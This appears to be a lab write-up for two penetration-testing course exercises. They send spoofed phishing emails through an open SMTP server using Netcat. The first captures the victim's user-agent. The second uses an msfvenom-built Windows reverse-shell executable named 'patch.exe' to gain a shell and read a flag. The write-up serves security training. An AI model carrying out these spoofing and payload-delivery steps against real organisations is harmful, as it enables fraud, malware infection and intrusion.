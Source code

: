 
###### 13.3.7.4
On the target VM #1 enumerate the victim's company website and identify the person working in HR.  
The objective of this challenge is to mount a social engineering attack against HR.  
The victim machine is running an SMTP server that can be used to send company emails.  
The SMTP server allows anonymous logins. Research how to interact with the SMTP server using Netcat.  
Then, send a phishing email to the HR employee that contains keywords "job application".  
Include a link to the attacker's webserver in the email body. Once the victim clicks on the malicious link,  
capture the browser's user-agent string. The flag is contained within the user-agent string.

Enum:
```bash
nmap -Pn 192.168.231.55  
  
PORT     STATE SERVICE  
25/tcp   open  smtp  
8080/tcp open  http-proxy
```

Find people & email   192168.231.55:8080 :
| Owen Lynch    | Layla Hale   | Tony Harper       | Ross Murray    |
| ------------- | ------------ | ----------------- | -------------- |
| CEO           | HR           | Sales & Contracts | IT Support\    |
| olynch@victim | lhale@victim | tharper@victim    | rmurray@victim |
| 202-555-0188  | 202-555-0182 | 202-555-0190      | 202-555-1051   |

Connect to SMTP & email:
```bash
nc -C 192.168.231.55 25  
  
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Fri, 9 Dec 2022 20:22:22 -0500  
  
HELO  
  
250 VICTIM Hello [192.168.119.231]  
  
MAIL FROM: tharper@victim  
  
250 2.1.0 tharper@victim....Sender OK  
  
RCPT TO: lhale@victim  
  
250 2.1.5 lhale@victim   
  
DATA  
  
354 Start mail input; end with <CRLF>.<CRLF>  
  
Subject: job application  
job application  
http://192.168.119.231/index.html  
.  
  
250 2.6.0 <VICTIM8CQ9d7vvktTP400000005@VICTIM> Queued mail for delivery  
  
QUIT
```


###### 13.3.7.5
On the target VM #2 enumerate the victim's company website and identify employees working in IT and Sales departments.  
The objective of this challenge is to mount a social engineering attack against the person in sales.  
The victim machine is running an SMTP server that can be used to send company emails. The SMTP server allows anonymous logins.  
Research how to interact with the SMTP server using Netcat. Then, send a phishing email **from the IT person** **to the employee in sales** that contains keywords **"urgent" and "patch"**.  
Create and host a **Windows PE payload** (_.exe_ executable) and include a link to it in the email body.  
If your email is sent as instructed, the victim user will open it, click on the link, download the malicious executable, and run it.  
Once you have obtained a reverse shell, retrieve the flag located on the Administrator user's desktop.

So, similar approach to above only using **msfvenom** for the payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.231 LPORT=4444 -f exe -o patch.exe
```
	Same ppl as above  
  
Start **nc** listener on the port ^  
  
Connect to SMTP & email:
```bash
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Fri, 9 Dec 2022 20:40:00 -0500   
  
HELO  
  
250 VICTIM Hello [192.168.119.231]  
  
MAIL FROM: rmurray@victim  
  
250 2.1.0 rmurray@victim....Sender OK  
  
RCPT TO: tharper@victim  
  
250 2.1.5 tharper@victim   
  
DATA  
  
354 Start mail input; end with <CRLF>.<CRLF>  
  
Subject: urgent patch  
urgent patch  
http://192.168.119.231/patch.exe  
.  
  
250 2.6.0 <VICTIMFRaqbC8wSA1Xv00000002@VICTIM> Queued mail for delivery  
  
QUIT  
  
221 2.0.0 VICTIM Service closing transmission channel
```

Once rev-shell's connected:
```powershell
type C:\Users\Administrator\Desktop\flag.txt
```
